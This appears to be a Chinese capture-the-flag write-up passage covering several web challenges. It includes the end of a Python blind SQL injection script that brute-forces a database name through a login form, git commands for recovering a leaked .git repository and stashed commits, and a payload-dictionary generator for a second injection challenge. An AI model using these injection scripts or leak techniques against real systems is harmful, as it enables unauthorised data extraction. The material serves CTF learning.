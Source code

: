 ```
				break
			i = curId
			curId += 1 
			un=username.format(database+lit[i])
			print(un)
			values = {"username":un, 'password':''}      
			data = parse.urlencode(values).encode('utf-8')  
			response = request.Request(url, data)
			response = urlopen(response) 
			if len(response.read().decode()) == 4: 
				database=database+lit[i]
				print("the database is :%s" % database)  
				break
		if curId == len(lit):
			print(database)
			break

print(get_database_length())
get_database_name()
```

盲注的脚本都没跑出来

2.git源码泄露

登录后提示/.bctfg1t，用gitstack下载源码`changame.ichunqiu.com/Challenges/.bctfg1t/`

之后执行git log，然后使用得到的commit，执行git reset --hard commit，回滚到之前的版本，再查看flag.php，啥变化都没有

然后大佬wp提示查cat /.git/refs/stash,获得版本的hash值，然后git reset --hard 哈希值

然后打开flag.php,提示flag在/71ec9d5ca5580c58d1872962c596ea71.php，或得flag，但是提交不正确

涉及到的git命令 

```
git cat-file -p hash值
git ls-tree hash值
```

也可以用git-extract，结果也是一样的，但是git-extranct不需要回滚版本，下载下来的是全部commit历史记录的文件

https://www.jianshu.com/p/0ea09975169d

https://www.jianshu.com/p/0ea09975169d

## sqli

https://blog.csdn.net/nzjdsds/article/details/82152085

## look（i春秋）

response头部显示verity,作为参数，注入4个字符显示error,注入5个字符显示过长，所以写个dic跑

```
from multiprocessing.pool import ThreadPool
from lxml import etree
from bs4 import BeautifulSoup
import logging

payload = 'abcdefghijklmnopqrstuvwxyz0123456789@_.'

for i in xrange(32, 126+1):
    for i2 in xrange(32, 126+1):
        print('\'' + chr(i) + chr(i2) + '%23')
        
python look.py > look.dic
```
burp抓包跑，’%1# 注入成功，提示5211ec9dde53ee65bb02225117fba1e1.php，response提viminfo